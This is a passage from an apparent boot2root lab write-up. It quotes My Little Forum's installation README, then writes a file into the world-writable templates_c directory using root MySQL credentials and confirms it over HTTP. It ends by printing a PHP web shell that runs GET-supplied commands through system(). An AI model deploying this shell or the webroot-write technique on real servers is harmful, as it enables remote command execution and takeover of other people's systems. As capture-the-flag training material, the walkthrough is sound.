 * <a href="https://github.com/ilosuna/mylittleforum/wiki">More about my little forum</a>
* [Demo and project discussion forum](https://mylittleforum.net/forum/)

System requirements
-------------------

* Webserver with PHP >= 7.3 and MySQL >= 5.5.3

Installation
------------

1. Unzip the script package.
2. Upload the complete folder "forum" to your server.
3. Depending on your server configuration the write permissions of the subdirectory templates_c (CHMOD 770, 775 or 777) and the file config/db_settings.php (CHMOD 666) might need to be changed in order that they are writable by the script.
4. Run the installation script by accessing yourdomain.tld/forum/install/ in your web browser and follow the instructions.
5. Remove the directory "install" from your installation of My Little Forum.
6. Change the write permissions for config/db_settings.php to (CHMOD 440), what prevents reading the files content for unauthorised users
---

According to the directory structure, we may be able to write to the templates_c subdirectory, as it may have the world writable attribute `xx7`:

```
3. Depending on your server configuration the write permissions of the subdirectory templates_c (CHMOD 770, 775 or 777) and the file config/db_settings.php (CHMOD 666) might need to be changed in order that they are writable by the script.
```
Let's try to write to it:
```bash
./upload.sh $(tr '/' ' ' < root.mysql.credentials) test.txt /var/www/forum/templates_c/test.txt
```
```
"Your SQL query has been executed successfully ( Query took 0.0002 sec )"
```

Success! Now let's ensure we can access the file using the `HTTP` protocol:
```bash
curl --insecure "https://boot2root.vm/forum/templates_c/test.txt"
```
```
test
```

Excellent, now let's try to upload a php shell, so that we can execute arbitrary commands.

My php shell takes a `GET` query argument and executes it using the php `system` function:
```php
<?php

$cmd = $_GET["cmd"];

system($cmd);

?>
```
